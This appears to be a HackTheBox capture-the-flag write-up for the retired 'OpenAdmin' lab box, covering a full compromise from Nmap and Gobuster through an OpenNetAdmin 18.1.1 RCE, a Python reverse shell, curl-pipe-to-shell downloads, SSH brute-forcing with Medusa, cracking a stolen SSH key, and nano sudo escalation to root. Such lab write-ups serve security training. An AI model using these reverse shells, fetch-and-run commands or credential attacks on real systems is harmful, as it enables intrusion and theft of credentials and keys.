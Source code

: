# OpenAdmin

This is the write-up for the box OpenAdmin that got retired at the 2nd May 2020.
My IP address was 10.10.14.9 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.171    openadmin.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/openadmin.nmap 10.10.10.171
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 4b:98:df:85:d1:7e:f0:3d:da:48:cd:bc:92:00:b7:54 (RSA)
|   256 dc:eb:3d:c9:44:d1:18:b1:22:b4:cf:de:bd:6c:7a:54 (ECDSA)
|_  256 dc:ad:ca:3c:11:31:5b:6f:e6:a4:89:34:7c:9b:e5:50 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

The web page shows the default _Apache2 Ubuntu Default Page_.
Lets search for hidden directories with **Gobuster**:
```
gobuster -u http://10.10.10.171 dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

It finds the following directories:
- _music_
- _artwork_
- _sierra_

The directories _artwork_ and _sierra_ have no interesting information.
The directory _music_ forwards to a page that advertises some music streaming service and in the top right is a _Login_ button, that forwards to _/ona_:

![Ona directory](openadmin_web-1.png)

By clicking on _"DOWNLOAD"_, it forwards to [OpenNetAdmin](https://opennetadmin.com) which is an open-source inventory database for IP networks.
The running version of this software is _v18.1.1_, so lets search for vulnerabilities:
```
searchsploit opennetadmin
```
```
OpenNetAdmin 18.1.1 - Command Injection Exploit (Metasploit)
OpenNetAdmin 18.1.1 - Remote Code Execution
```

There is a known Remote Code Execution vulnerability that can be exploited with a **Bash script** or with a **Metasploit module**.

Using the Bash script:
```
bash 47691.sh 10.10.10.171/ona/
```

This starts a shell on the box as _www-data_, but as the shell is not very stable, I will execute a reverse shell script to get a real TTY shell.

Contents of the reverse shell Python script:
```python
import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.9",9001));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);
```

Downloading and executing the script on the box:
```
$ curl 10.10.14.9/revshell.py | python3
```

The file gets downloaded and executed and the listener on my IP and port 9001 starts a reverse shell session as _www-data_.

## Privilege Escalation

To get an attack surface on the box, it is recommended to run any **Linux Enumeration Script**:
```
curl 10.10.14.9/linpeas.sh | bash
```

The installation path of **OpenNetAdmin** is in _/opt/ona_.
By searching for passwords in the files, we find one for a MySQL database in the file _/opt/ona/www/local/config/database_settings.inc.php_:
```
(...)
db_type' => 'mysqli'
db_host' => 'localhost',
db_login' => 'ona_sys',
db_passwd' => 'n1nj4W4rri0R!',
db_database' => 'ona_default
(...)
```

Connecting to the database and enumerating it:
```
mysql -u ona_sys -p
```
```
mysql> show databases;

+--------------------+
| Database           |
+--------------------+
| information_schema |
| ona_default        |
+--------------------+

mysql> use ona_default;

mysql> show tables;

mysql> describe users;

mysql> select id,username,password from users

+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | guest    | 098f6bcd4621d373cade4e832627b4f6 |
|  2 | admin    | 21232f297a57a5a743894a0e4a801fc3 |
+----+----------+----------------------------------+
```

Both hashes can be found in open hash databases like [CrackStation](https://crackstation.net/):
- guest:test
- admin:admin

Unfortunately that does not give us any way to escalate privileges.

On the box are two more users called _jimmy_ and _joanna_ other than root.
By testing for password reuse, we may get lucky and can login as one of them.

With the brute-forcing tool [Medusa](https://github.com/jmk-foofus/medusa), it is possible to test all credentials automatically:
```
medusa -h 10.10.10.171 -U users.list -P passwords.list -M ssh 10.10.10.171

(...)
ACCOUNT FOUND: [ssh] Host: 10.10.10.171 User: jimmy Password: n1nj4W4rri0R! [SUCCESS]
```

It found the password for the user _jimmy_ as the one used before for the MySQL database user and login via SSH is possible:
```
ssh jimmy@10.10.10.171
```

### Privilege Escalation 2

After searching for readable files for the user, we find _/var/www/internal_.
By looking at the open ports with `ss -lnpt`, it is probably running on port 52846.

The web server directory contains three files:
- index.php
- logout.php
- main.php

The file _main.php_ reads the SSH key of _joanna_:
```
(...)
$output = shell_exec('cat /home/joanna/.ssh/id_rsa');
(...)
```

The file _index.php_ has a SHA512 hash in it:
```
# (...)
if (isset($_POST['login']) && !empty($_POST['username']) && !empty($_POST['password'])) {
    if ($_POST['username'] == 'jimmy' && hash('sha512',$_POST['password']) == '00e302ccdcf1c60b8ad50ea50cf72b939705f49f40f0dc658801b4680b7d758eebdc2e9f9ba8ba3ef8a8bb9a796d34ba2e856838ee9bdde852b8ec3b3a0523b1') {
        $_SESSION['username'] = 'jimmy';
        header("Location: /main.php");
      } else {
        $msg = 'Wrong username or password.';
# (...)
```

This hash can be found on open hash databases like [CrackStation](https://crackstation.net/) and it is:
> Revealed

Sending a request to _main.php_ to get the SSH key.
```
curl 127.0.0.1:52846/main.php
```

It did not need any authentication and reads the file and shows the encrypted SSH key in _/home/joanna/.ssh/id_rsa_:
```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
(...)
```

Cracking the SSH key with **JohnTheRipper**:
```
sshng2john joanna_id_rsa > joanna_ssh.hash

john --wordlist=/usr/share/wordlists/rockyou.txt joanna_ssh.hash
```

After a while it gets cracked and the password is:
> bloodninjas

Login into the box via SSH as _joanna_:
```
ssh -i joanna.ssh joanna@10.10.10.171
```

### Privilege Escalation to root

When checking the sudo privileges of _joanna_, the user can run a `nano` command with root privileges:
```
sudo -l

User joanna may run the following commands on openadmin:
    (ALL) NOPASSWD: /bin/nano /opt/priv
```

The binary `nano` has an entry in [GTFOBins](https://gtfobins.github.io/gtfobins/nano/) and can be abused when using it with `sudo` to run commands without dropping privileges.

Executing `nano` and running `sh` with root privileges:
```
sudo /bin/nano /opt/priv
```
```
CTRL + R

CTRL + X

reset; sh 1>&0 2>&0
```

This spawns a shell as root!
